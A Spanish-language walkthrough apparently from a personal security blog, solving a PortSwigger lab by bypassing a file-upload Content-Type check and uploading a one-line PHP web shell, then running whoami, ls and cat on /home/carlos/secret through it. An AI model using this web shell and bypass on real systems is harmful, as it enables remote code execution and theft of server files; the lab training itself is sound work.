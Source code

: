 ```yaml
---
title: "Web shell upload via Content-Type restriction bypass"
description: "Laboratorio de Portswigger sobre File Upload"
date: 2024-11-24 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - File Upload
tags:
  - File Upload
  - Web shell upload via Content-Type restriction bypass
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `función` de carga de imágenes `vulnerable` que intenta `evitar` que los usuarios `suban` tipos de `archivos inesperados`, pero se basa en verificar una entrada controlada por el usuario para hacerlo. Para `resolver` el `laboratorio`, debemos `subir` una `web shell` básica en `PHP`, usarla para `extraer` el `contenido` del archivo `/home/carlos/secret` y luego usar este `secreto` utilizando el botón proporcionado en la barra del laboratorio. Podemos `iniciar sesión` en nuestra `cuenta` usando las siguientes credenciales: `wiener:peter`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/File-Upload-Lab-2/image_1.png)

Pulsamos en `My account` e `iniciamos sesión` con las credenciales `wiener:peter`

![](/assets/img/File-Upload-Lab-2/image_2.png)

Vemos que existe un `campo` de `subida` de `archivos`

![](/assets/img/File-Upload-Lab-2/image_3.png)

Si `inspeccionamos` con donde se `aloja` la `imagen` vemos que es en la ruta `/resources/images`

![](/assets/img/File-Upload-Lab-2/image_4.png)

Nos `creamos` un `archivo` llamado `shell.php` y lo `subimos`

```
<?php
    echo "<pre>" . system($_REQUEST['cmd']) . "</pre>";
?>
```

Al intentar subirlo vemos que nos da este `error`

![](/assets/img/File-Upload-Lab-2/image_5.png)

`Subimos` el `archivo` nuevamente y `capturamos` la `petición` con `Burpsuite`

![](/assets/img/File-Upload-Lab-2/image_6.png)

Cambiamos el `Content-Type` a `image/png` y `subimos` el `archivo`, posteriormente abrimos nuevamente el `inspector` de `chrome` y vemos que el `archivo` subido se `aloja` en `/files/avatars`

![](/assets/img/File-Upload-Lab-2/image_7.png)

Si accedemos a `https://0aa000d704efa5eb8202c09f005a0081.web-security-academy.net/files/avatars/shell.php?cmd=whoami` veremos que tenemos un `RCE (Remote Code Execution)`

![](/assets/img/File-Upload-Lab-2/image_8.png)

Si accedemos a `https://0aa000d704efa5eb8202c09f005a0081.web-security-academy.net/files/avatars/shell.php?cmd=ls%20/home/carlos` vemos un `archivo` llamado `secret`

![](/assets/img/File-Upload-Lab-2/image_9.png)

Leemos la información de ese archivo con `https://0aa000d704efa5eb8202c09f005a0081.web-security-academy.net/files/avatars/shell.php?cmd=cat%20/home/carlos/secret`

![](/assets/img/File-Upload-Lab-2/image_10.png)

Pulsamos en `Submit solution` y `mandamos` nuestra `solución`

![](/assets/img/File-Upload-Lab-2/image_11.png)
